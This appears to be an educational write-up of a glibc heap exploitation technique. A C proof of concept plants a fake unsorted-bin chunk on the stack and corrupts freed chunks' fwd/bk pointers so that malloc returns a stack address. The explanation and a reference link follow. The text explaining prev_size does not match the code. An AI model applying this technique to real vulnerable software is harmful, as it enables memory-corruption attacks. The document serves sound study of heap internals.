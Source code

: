 <details>
<summary><strong>Description</strong></summary>
<p>

we will be trying to get malloc to allocate a ptr on the stack. This will be done via leveraging the unsorted bin linked list...
> i modified the shogun poc (easier?)

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`, `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

#define CHUNK_SIZE0 0x420
#define CHUNK_SIZE1 0x080

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, stack_array[10], *chunk3;

    // allocate two unsortedbin range chunks
    chunk0 = malloc(0x420);
    malloc(0x18); // padding to prevent consolidation
    chunk1 = malloc(0x420);
    malloc(0x18); // padding to prevent consolidation

    free(chunk0); // insert them into the unsorted bin
    free(chunk1);

    // create the unsorted bin fake chunk header
    // stack_array[0] = 0x00; // fake chunk's prev_size (usually we dont need to care about this)
    stack_array[1] = 0x41; // fake chunk's size (turn on the prev_inuse for easier)

    // add a fake heap chunk header, right after the end of our fake unsorted bin chunk
    // this is because there are checks for the next adjacent chunk, since if malloc properly allocated this (fake) chunk, there would be one there
    stack_array[8] = 0x40; // fake adjacent chunk prev_size
    stack_array[9] = 0x50; // fake adjacent chunk size (turn off the prev_inuse)

    // set the fwd/bk pointers of our unsorted bin fake chunk, so that they point to the two chunks were linking to here
    stack_array[2] = ((long)chunk0 - 0x10); // fwd
    stack_array[3] = ((long)chunk1 - 0x10); // bk

    // now we will link in our fake chunk via overwriting the fwd/bk ptr of two other chunks in the unsorted bin
    // which we have already linked against with our fake unsorted bin chunk
    /*VULNERABILITY*/
    chunk0[1] = (long)(stack_array); // bk
    chunk1[0] = (long)(stack_array); // fwd
    /*VULNERABILITY*/

    // now fake chunk is in unsortedbin and ready to allocate (it will act like normal unsortedbin (behaviour))
    chunk3 = malloc(0x38);

    printf("chunk3: %p\n", chunk3);
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

we will effectively create a fake unsorted bin chunk, and overwrite the fwd ptr of one unsorted bin chunk, and the bk ptr of another unsorted bin chunk to effectively insert the fake unsorted bin chunk into the unsorted bin. For the fake unsorted bin chunk, we will set the fwd/bk ptrs to the two chunks we linked to the fake unsorted bin chunk, as it should

we will need to set some things for the fake unsorted bin chunk. We will need to set the `prev_size` (to `0x01`), and the size of the chunk header (I will be setting it to `0x41`). In addition to that, we will need to make a fake chunk header right after our fake chunk, as there should be one if this was an actual malloc chunk. The `prev_size` must match the size of our chunk, which will be `0x40`.  For the size, I just put 0x50 (not a lot of thought here, the `prev_inuse` isn't set, however this might cause some problems under the right condition)...

in summary, for the size of the fake unsorted bin chunk, there are three main considerations for it. **The first**, is that the amount of data we will be able to write to the chunk will be directly tied to the size of it. **The second** is that we will need a fake chunk header right after our fake unsorted bin chunk, whose location will be determined by the start of our fake unsorted bin chunk, and its size. **The third** consideration, is if the chunk gets moved over into either a small / large bin, its size will determine which bin it gets moved over into.

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/unsorted_bin/unsorted_linked/readme.md
> i modified this a little bit (easier)

</p>
</details>